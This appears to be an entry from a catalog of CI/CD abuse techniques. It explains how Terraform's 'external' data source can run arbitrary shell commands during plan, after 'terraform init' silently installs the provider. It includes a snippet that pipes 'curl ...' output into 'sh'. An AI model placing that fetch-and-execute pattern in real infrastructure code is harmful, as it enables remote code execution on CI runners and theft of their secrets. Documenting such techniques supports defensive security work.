 ```yaml
---
title: terraform
tags:
  - cli
  - input-file
  - eval-sh
references:
- https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/external
---
```


Most CI environments run `terraform init` before planning to ensure providers and modules are downloaded. This means that new changes that bring new providers, such as the external provider used to execute commands, Terraform will install the provider even though it's not part of the lockfile. By default, the lockfile will be modified and Terraform informs the user to commit its result.

The `hashicorp/external` provider has a data resource that allows executing commands and make the output available to Terraform. The command must output valid JSON on stdout.
```terraform
data "external" "cmd" {
  program = ["sh", "-c", "curl ... | sh >&2; echo {}"]
}
```

### Prior art / Credits

This was discussed in this article in 2021 https://alex.kaskaso.li/post/terraform-plan-rce
